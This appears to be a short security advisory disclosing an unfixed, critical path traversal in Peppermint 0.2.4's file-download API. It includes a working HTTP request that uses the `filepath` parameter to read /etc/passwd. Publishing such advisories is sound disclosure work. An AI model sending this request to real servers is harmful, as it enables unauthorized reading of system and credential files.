 # Peppermint-Lab  - Path Traversal


**CVE-ID:** -


**Vendor:** [Peppermint-Lab](https://peppermint.sh)

**Affected Product:** Peppermint

**Affected Versions:** 0.2.4

**Vulnerability:** Path Traversal

**Status:** Unfixed

**Severity:** Critical



## Details

The application allows users to download files.
The `filepath` parameter is vulnerable to a path traversal resulting in reading/downloading arbitrary files from the server.


```http
POST /api/v1/users/file/download?filepath=./../../../../../etc/passwd HTTP/1.1
Host: localhost:5000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryb7JNKIvHMye0lm1h
[...]

------WebKitFormBoundaryb7JNKIvHMye0lm1h--
```

